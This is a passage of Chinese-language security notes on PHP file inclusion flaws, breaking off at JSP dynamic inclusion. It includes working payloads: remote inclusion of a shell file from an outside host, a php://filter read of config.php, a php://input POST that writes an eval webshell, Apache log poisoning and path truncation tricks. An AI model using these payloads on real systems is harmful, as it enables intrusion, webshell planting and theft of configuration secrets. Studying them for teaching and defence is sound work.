 
 （2）远程包含shell  
 当目标主机allow_url_fopen选项是on,就可以远程包含一句话
 
 http://cfyqy.com/index.php?page=http://www.qianye.com/shell.txt 

 (3)本地包含配合文件上传。  
 上传一句话图片木马到目标网站服务器，再包含该图片。  
 (4)使用[php封装协议](https://lorexxar.cn/2016/09/14/php-wei/)    
 
 ```bash
 file://          访问本地文件系统
 http://          访问http(s)网址
 ftp://           访问ftp(s)urls
 php://           访问输入/输出流  
 zlib://          压缩流   
 data://          数据流   
 sshs://          Secure Shell2 
 expect://        处理交互式的流  
 glob://          查找匹配文件路径   
```
 
 使用封装协议可以读取php文件  
```bash
 http://cfyqy.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php  
```
写入php文件
```bash
 http://cfyqy.com/index.php?page=php://input   
 
 post：<?fputs(fopen("shell.php","w"),"<?php eval($_POst['qianye']);?>"?>
```
  (5）包含apache 日志文件   
 访问   
```bash
 http://cfyqy.com/<?php  phpinfo();?> 
```
 <> 会被url转码，所以要bp修改一下 。   
 发现apache的日志文件路径是重点            
（6）文件包含截断  
%00截断：   
受限于GPC和addslashes等函数过滤，php5.3后，前面修复了该问题   

利用多个英文句号（.）和反斜杠（/）来截断：  
window下240个（.）或者240个（./）,linux下2038个（/.）组合  
不受gpc限制，php5.3之后被修复  

问号（?）来伪截断： 
```bash 
http://cfyqy.com/1.txt == http://cfyqy.com/1.txt?.php 
```
不受gpc和php版本限制  
3.jsp包含：  
(1)静态包含  
```bash
<%@ include file="page.txt" %> 
```
jsp语法规定：  
include指令为静态包含，只允许包含一个已经存在于服务器中的文件，不能使用变量来控制包含某个文件，这意味着使用include指令，将不存在文件包含漏洞  
(2)动态包含  
